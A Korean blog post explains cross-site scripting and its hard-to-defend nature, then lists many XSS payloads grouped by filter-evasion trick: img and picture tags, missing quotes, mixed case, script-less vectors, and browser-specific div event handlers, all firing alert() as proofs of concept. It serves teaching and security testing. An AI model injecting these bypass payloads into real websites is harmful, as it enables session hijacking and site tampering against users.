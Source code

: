 ```yaml
---
layout: post
title: XSS(Cross-site Scripting) 공격에 대하여
---
```


오늘은 XSS(Cross-site Scripting)에 대해 알아보자.

## XSS란?

XSS는 일종의 Injection 공격으로, 웹사이트 보안이 취약한 부분에 주로 자바스크립트 코드를 삽입하여 특정 사람들의 정보를 빼가는 것을 노리는 공격이다. 하지만 XSS는 방어하기 어렵고 4년마다 한 번씩 출간되는 [OWASP Top 10](https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project#Translation_Efforts_2)에도 계속 올라온다.

그렇다면 XSS는 왜 방어하기 어려울까? 그 이유는 브라우저가 자바스크립트 코드를 실행할 수 있고, 사용자들이 브라우저로 신뢰하고 있는 웹사이트를 돌아다닐 때 해당 페이지에서 악의적인 코드가 문제없이 실행될 수 있기 때문이다. 결국, 피해자의 브라우저에서 공격자에 의해 스크립트를 실행시켜 사용자 세션을 탈취할 수 있게 만들고, 웹사이트를 변조시켜 악성 사이트로 리다이렉션할 수 있도록 만든다.

XSS 공격을 막으려면 웹 페이지 입력 폼에서 올바른 유효성 검사 또는 필터링 처리 기능을 추가하고, 신뢰할 수 없는 데이터를 포함하지 않아야 한다.

## XSS Scripts

그렇다면 XSS 공격 스크립트들은 어떤 것이 있는지 알아보자. 공격자가 어떤 스크립트를 웹 페이지에 삽입하는지 확인할 수 있다.

### 기본적인 필터링이 없을 경우
```html
<form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>
<script>alert(123)</script>
<script>alert("hellox worldss");</script>
```

### 이미지 태그를 이용한 경우
```html
<IMG SRC="javascript:alert('XSS');">
<IMG DYNSRC="javascript:alert('XSS')">
<IMG LOWSRC="javascript:alert('XSS')">
<img src="javascript:alert('XSS');">
<img src=javascript:alert(&quot;XSS&quot;)>
<picture><source srcset="x"><img onerror="alert(1)"></picture>
<picture><img srcset="x" onerror="alert(1)"></picture>
<img srcset=",,,,,x" onerror="alert(1)">
```

### 따옴표(Quotes), 세미콜론(Semicolon)이 없는 경우
```html
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
```

### 대소문자 구별이 없는 경우
```html
<IMG SRC=JaVaScRiPt:alert('XSS')>
```

### <script> 태그를 사용하지 않는 경우
```html
<form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>
<video poster=javascript:alert(1)//></video>
<body oninput=alert(1)><input autofocus>
<? foo="><script>alert(1)</script>">
<! foo="><script>alert(1)</script>">
</ foo="><script>alert(1)</script>">
<? foo="><x foo='?><script>alert(1)</script>'>">
<! foo="[[[Inception]]"><x foo="]foo><script>alert(1)</script>">
<% foo><x foo="%><script>alert(123)</script>">
```

### <div> 태그를 사용한 경우(각 브라우저 별로 정리)
```html
<!-- Chrome, Opera, Safari and Edge -->
<div onfocus="alert(1)" contenteditable tabindex="0" id="xss"></div>
<div style="-webkit-user-modify:read-write" onfocus="alert(1)" id="xss">
<div style="-webkit-user-modify:read-write-plaintext-only" onfocus="alert(1)" id="xss">

<!-- Firefox -->
<div onbeforescriptexecute="alert(1)"></div>
<script>1</script>

<!-- IE10/11 & Edge -->
<div style="-ms-scroll-limit:1px;overflow:scroll;width:1px" onscroll="alert(1)">

<!-- IE10 -->
<div contenteditable onresize="alert(1)"></div>

<!-- IE11 -->
<div onactivate="alert(1)" id="xss" style="overflow:scroll"></div>
<div onfocus="alert(1)" id="xss" style="display:table">
<div id="xss" style="-ms-block-progression:bt" onfocus="alert(1)">
<div id="xss" style="-ms-layout-flow:vertical-ideographic" onfocus="alert(1)">
<div id="xss" style="float:left" onfocus="alert(1)">

<!-- Chrome, Opera, Safari -->
<style>@keyframes x{}</style>
<div style="animation-name:x" onanimationstart="alert(1)"></div>

<!-- Chrome, Opera, Safari -->
<style>
div {width: 100px;}
div:target {width: 200px;}
</style>
<div id="xss" onwebkittransitionend="alert(1)" style="-webkit-transition: width .1s;"></div>

<!-- Safari -->
<div style="overflow:-webkit-marquee" onscroll="alert(1)"></div>
```

나중에 기회가 된다면 sqlmap같은 도구를 XSS 취약점 점검 도구 버전으로 개발해보고 싶다. xssmap? 사실 사람들이 개인적으로 만든 퍼저(Fuzzer)들이 많지만, 플랫폼 또는 언어를 통합할 수 있다면 좋을 것 같다.

[참고자료]
- http://www.smeegesec.com/2012/06/collection-of-cross-site-scripting-xss.html
- http://www.thegeekstuff.com/2012/02/xss-attack-examples/?utm_source=tuicool
- https://84692bb0df6f30fc0687-25dde2f20b8e8c1bda75aeb96f737eae.ssl.cf1.rackcdn.com/--xss.html
- https://github.com/cure53/H5SC
